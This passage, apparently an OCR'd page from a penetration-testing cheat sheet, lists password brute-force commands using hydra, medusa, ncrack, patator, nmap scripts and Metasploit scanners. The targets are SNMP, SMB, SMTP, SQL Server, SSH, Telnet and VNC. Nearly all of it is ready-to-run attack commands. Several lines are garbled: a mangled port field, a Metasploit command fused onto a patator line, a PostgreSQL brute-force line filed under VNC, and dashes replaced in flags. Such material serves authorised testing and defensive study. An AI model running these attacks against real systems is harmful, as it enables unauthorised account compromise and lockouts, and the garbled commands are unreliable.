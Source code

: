 ```
onesixtyone -c /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt <IP>
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt target.com snmp
```
### SMB
```
nmap --script smb-brute -p 445 <IP>
hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
```
### SMTP
```
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V #Port 587 for SMTP with SSL
```
### SQL Server
```
#Use the NetBIOS name of the machine as domain
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> mssql
medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M mssql
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts <host> #Use domain if needed. Be carefull with the number of password in the list, this could block accounts
msf> use auxiliary/scanner/mssql/mssql_login #Be carefull, you can block accounts. If you have a domain set it and use USE_WINDOWS_ATHENT
```
### SSH
```
hydra -l root -P passwords.txt [-t 32] <IP> ssh
ncrack -p 22 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ssh
```
### Telnet
```
hydra -l root -P passwords.txt [-t 32] <IP> telnet
ncrack -p 23 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M telnet
```
### VNC
```
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT> <IP> vnc
medusa -h <IP> –u root -P /root/Desktop/pass.txt –M vnc
ncrack -V --user root -P /root/Desktop/pass.txt <IP>:>POR>T
patator vnc_login host=<IP> password=FILE0 0=/root/Desktop/pass.txt –t 1 –x retry:fgep!='Authentication failure' --max-retries 0 –x quit:code=0use auxiliary/scanner/vnc/vnc_login
nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>
```
